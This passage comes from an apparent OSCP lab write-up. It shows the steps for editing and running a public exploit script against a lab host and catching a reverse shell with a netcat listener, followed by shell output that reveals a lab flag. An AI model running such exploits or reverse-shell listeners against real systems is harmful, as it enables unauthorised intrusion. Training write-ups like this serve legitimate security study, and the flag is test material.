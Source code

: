 ```
3. Change smpt and service two port numbers. 

4. Run the exploit. 
┌──(kali㉿kali)-[~/OSCP/12]
└─$ python3 50347.py 192.168.233.52 192.168.45.195 6666

5. Obtained reverse shell and flag. 
┌──(kali㉿kali)-[~/OSCP/12]
└─$ sudo nc -nvlp 6666
listening on [any] 6666 ...
connect to [192.168.45.195] from (UNKNOWN) [192.168.233.52] 49254
challenge@d8c28782af17:~$ id
id
uid=1001(challenge) gid=1001(challenge) groups=1001(challenge)
challenge@d8c28782af17:~$ su student
su student
su: must be run from a terminal
challenge@d8c28782af17:~$ ls
ls
flag.txt
challenge@d8c28782af17:~$ cat flag.txt
cat flag.txt
Congrats. Here is your flag, brought to you by the great Ronald Dahl:

OS{42db1eca9c0181e3eb8359914c5c850e}


```
#### 12.5. Wrapping Up


 


